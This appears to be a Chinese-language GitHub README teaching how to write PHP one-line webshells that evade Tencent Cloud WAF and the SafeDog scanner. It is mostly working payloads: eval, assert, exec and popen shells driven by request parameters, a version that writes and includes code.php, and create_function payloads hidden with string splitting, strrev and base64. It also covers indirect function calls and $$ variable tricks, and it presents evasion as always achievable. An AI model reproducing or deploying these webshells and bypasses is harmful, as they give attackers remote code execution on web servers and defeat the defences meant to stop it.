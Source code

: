 
### PHP-WebShell-Bypass-WAF

  PHP WebShell 一句话的结构是:输入和执行,这是经典的PHP 一句话代码:

```PHP
    <?php eval($_GET['test']); ?>
    <?php eval($_POST['test']); ?>
```

WebShell 的输入点在<b>$_GET</b> 和<b>$_POST</b> ,执行点在**eval()** ,经典的一句话WAF 都会拦截<br/>

  测试:`<?php eval($_GET['test']); ?>`

![](pic/php-eval-get.png)

  测试:`<?php $_GET['test']; ?>`

![](pic/php-get.png)

  测试:`<?php eval(); ?>`

![](pic/php-eval.png)

  综合上面三点,可以发现WAF 是通过关键字来拦截的,把这三个测试用例放到安全狗下测试

![](pic/php-eval-get-safedog.png)

  可以发现,安全狗是通过综合判断来识别WebShell 的,现在,我们有两种的绕过方式:关键字绕过和混淆绕过

### 关键字绕过

  一般来说,WAF 里边的拦截规则都是使用了正则来匹配的,第一个绕过思路:**寻找WAF 拦截里边有没有匹配的关键字**<br/>
  
  测试用例:`<?php%20assert('$code='.$_REQUEST['code']);$code();%20?>`

![](pic/tencent-WAF-assert-bypass.png)

  测试用例:`<?php%20$file=file_put_contents('code.php','<?php%20'.$_REQUEST['code'].'%20?>');include%20'code.php';%20?>`

![](pic/tencent-WAF-include-bypass.png)

  测试用例:`<?php%20exec($_REQUEST['code']);%20?>`

![](pic/tencent-WAF-exec-bypass.png)

  测试用例:`<?php%20$handle=popen($_REQUEST['code'],'r');echo%20fread($handle,1024*4);?>`

![](pic/tencent-WAF-popen-bypass.png)

  测试用例:`<?php%20$function=create_function('$code',strrev('lave').'('.strrev('TEG_$').'["code"]);');$function();%20?>`

![](pic/tencent-WAF-create_function-bypass.png)

  思路1 总结:尽可能找到更多不被拦截的函数,然后用来测试

  后来,这些关键字都被策略补上去了,接下来就使用混淆来绕过关键字检测

### 混淆绕过

  `create_function()` 是比较有意思的函数,函数的原型为:[Link](http://php.net/manual/en/function.create-function.php)
  
```PHP
    string create_function ( string $args , string $code )
```

  第一个参数是函数需要的参数列表,第二个参数为函数代码,最后会返回一个函数对象,然后再去调用.在构造代码的时候(构造第二个参数)可以有很多不同的混淆方法
  
```PHP
    eval($_GET['test']);
```
  
  通过很多不同种类的字符串变化成下面的例子
  
```PHP
    'ev'.'al'.'($_G'.'ET['.'"test"]);'
    strrev('$(lave').'_G'.'ET['.'"test"]);';
    base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=');
```

  这样的变化是非常多的,用云WAF 和安全狗测试一下:

```PHP
    <?php $function=create_function('$code','ev'.'al'.'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',strrev('$(lave').'($_G'.'ET['.'"test"]);') ?>
    <?php $function=create_function('$code',base64_decode('ZXZhbCgkX0dFVFsidGVzdCJdKTs=')) ?>
```

![](pic/create_function_tencent-WAF.png)

![](pic/create_function_safedog.png)

  腾讯云WAF 的策略是把`create_function()` 当作敏感函数拦截了,这三个WebShell 安全狗也都全部杀掉,先从安全狗开始尝试绕过.
  
  首先使用一个空的`create_function()` 尝试看看安全狗有没有杀掉

![](pic/create_function_safedog_nokill.png)

  向`create_function()` 填充一些可以执行的代码,安全狗也没有杀.

![](pic/create_function_safedog_nokill2.png)

  填充`eval($_GET['test'])` ,发现安全狗识别出WebShell
  
![](pic/create_function_safedog_kill.png)

  使用混淆`'ev'.'al'.'($_G'.'ET['.'"code"'.']);'` 也同样可以被识别

![](pic/create_function_safedog_kill2.png)

  使用`strrev('ve').strrev('la').base64_decode('KCRfR0VUWw==').'"code"'.']);';` 也还是可以别识别

![](pic/create_function_safedog_kill3.png)

  不过不要灰心,PHP 是很灵活的语言,变化的花样很多,试试这样写,就可以绕过安全狗的扫描了

![](pic/create_function_safedog_kill4.png)

  做一句话WAF 绕过和免杀,一定要相信自己,AV 和WAF 除了用关键字和综合判断来识别WebShell ,终会有办法绕过的.现在过狗,接下来介绍一下间接调用函数与间接引用变量.

### 间接调用函数

  PHP 里边有个语法是`$function='eval';` ,然后就可以直接对$function 变量进行函数调用,语法是`$function()`.基于这一点,我们回过头来绕过云WAF

Payload:

```PHP
    <?php $function='create'.'_function';$function=$function('$code','ev'.'al'.'($_'.'GET'.'["code"]);');$function();?>
```

![](pic/tencent-WAF-create_function-bypass-remix.png)

### 间接调用变量

  PHP 还有一个语法是`$$` 间接引用变量,比如:`$test=1234;$reference='test';echo $$reference;` 这样使用,reference 变量里边保存test 变量的名字,然后用符号$$ 即可引用到变量test .这样有什么意义呢?因为WAF 和AV 会通过$_GET ,$_POST 来判断WebShell ,不妨回到云WAF 再看看

![](pic/tencent-WAF-$_GET.png)

  使用`$$` 来绕过,Payload 如下:

```PHP
    <?php $a = '_GET';echo $$a['test'];  //  云WAF 规则已经更新,<?php ?> 会被拦截,所以去掉?> 即可绕过,由此判断是正则匹配,可以开开脑洞发挥一下绕过正则判断
```

![](pic/tencent-WAF-$_GET-bypass.png)

  这样就可以绕过对$_GET ,$_POST 的检测,同样,还有$_REQUESTS ,$_COOKIE 

![](pic/tencent-WAF-$_COOKIE-bypass.png)

  

